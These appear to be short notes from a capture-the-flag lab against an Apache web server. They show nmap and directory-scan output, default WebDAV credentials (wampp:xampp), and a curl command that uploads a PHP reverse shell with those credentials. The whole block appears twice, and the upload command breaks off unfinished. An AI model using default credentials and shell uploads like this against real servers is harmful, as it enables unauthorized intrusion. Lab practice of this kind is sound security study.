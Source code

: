 PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works


/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
================================

default creds for webdav are available in internet
wampp:xampp

cmd to upload a shell
curl http://10.10.162.236/webdav/php-reverse-shell.php -u wampp:xampp --upload-file 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works


/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
================================

default creds for webdav are available in internet
wampp:xampp

cmd to upload a shell
curl http://10.10.162.236/webdav/php-reverse-shell.php -u wampp:xampp --upload-file 
